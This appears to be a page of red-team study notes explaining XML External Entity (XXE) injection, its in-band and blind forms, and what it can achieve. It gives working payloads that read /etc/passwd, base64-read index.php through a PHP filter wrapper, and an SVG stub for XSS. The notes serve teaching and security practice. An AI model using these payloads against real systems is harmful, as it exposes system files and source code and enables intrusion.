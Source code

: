 # XML External Entity (XXE)

[Go back](../../index.md)

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![xxe_injection](../../../../_badges/poat/xxe_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

<div class="row row-cols-md-2"><div>

An XML External Entity (XXE) is an attack exploiting [XML](/programming-languages/others/data/xml.md) parsers used by applications. We create a custom [DTD](/programming-languages/others/data/xml.md#document-type-definition-dtd-) doing something malicious.

* Append to the XML a sensitive file
* Perform a DDoS attack
* Do a [SSRF attack](../web/ssrf.md)

There are two kind of XXE

* **In-band XXE**: same channel to attack and fetch results
* **Out-band/Blind XXE**: different channels to attack and fetch results
</div><div>

For instance, we define an entity called `poc` in the DTD that is defined by the content of `/etc/passwd`. The parsed XML will have the content of the file inside the root element.

```xml!
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY poc SYSTEM 'file:///etc/passwd']>
<root>&poc;</root>
```
</div></div>

<hr class="sep-both">

## XXE Payloads

<div class="row row-cols-lg-2"><div>

Use [PHP wrappers](/cybersecurity/red-team/s3.exploitation/vulns/web/files/wrappers.md) to read a file:

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
</div><div>

Perform an [XSS](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md) attack:

```xml!
<svg width="100" height="100" xmlns="http://www.w3.org/2000/svg">
    <script type="text/javascript">/* ... */</script>
</svg>
```
</div></div>
